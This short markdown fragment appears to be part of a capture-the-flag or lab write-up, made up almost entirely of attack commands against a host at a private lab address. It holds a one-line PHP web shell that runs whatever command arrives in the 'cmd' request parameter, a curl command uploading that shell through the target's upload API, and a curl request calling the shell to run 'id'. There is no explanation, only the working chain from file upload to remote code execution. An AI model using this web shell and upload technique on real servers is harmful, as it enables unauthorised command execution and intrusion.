

____

```php
<?php SYSTEM($_REQUEST['cmd']); ?>
```

```bash
curl -X POST http://10.129.156.12:3001/api/upload/ \
  -H "Content-Type: multipart/form-data" \
  -F "file=@shell.php"
```



```bash
curl http://10.129.156.12:3001/uploads/shell.php\?cmd\=id
```
